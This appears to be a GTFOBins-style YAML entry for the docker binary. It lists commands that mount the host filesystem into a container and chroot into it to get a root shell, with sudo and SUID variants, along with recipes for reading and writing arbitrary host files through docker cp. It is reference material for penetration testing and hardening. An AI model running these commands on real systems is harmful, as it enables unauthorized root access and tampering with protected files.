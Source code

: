```yaml
---
description: |
  This requires the user to be privileged enough to run docker, i.e. being in the `docker` group or being `root`.

  Any other Docker Linux image should work, e.g., `debian`.
functions:
  shell:
    - description: The resulting is a root shell.
      code: docker run -v /:/mnt --rm -it alpine chroot /mnt sh
  file-write:
    - description: Write a file by copying it to a temporary container and back to the target destination on the host.
      code: |
        CONTAINER_ID="$(docker run -d alpine)" # or existing
        TF=$(mktemp)
        echo "DATA" > $TF
        docker cp $TF $CONTAINER_ID:$TF
        docker cp $CONTAINER_ID:$TF file_to_write
  file-read:
    - description: Read a file by copying it to a temporary container and back to a new location on the host.
      code: |
        CONTAINER_ID="$(docker run -d alpine)"  # or existing
        TF=$(mktemp)
        docker cp file_to_read $CONTAINER_ID:$TF
        docker cp $CONTAINER_ID:$TF $TF
        cat $TF
  sudo:
    - description: The resulting is a root shell.
      code: sudo docker run -v /:/mnt --rm -it alpine chroot /mnt sh
  suid:
    - description: The resulting is a root shell.
      code: ./docker run -v /:/mnt --rm -it alpine chroot /mnt sh
---
```

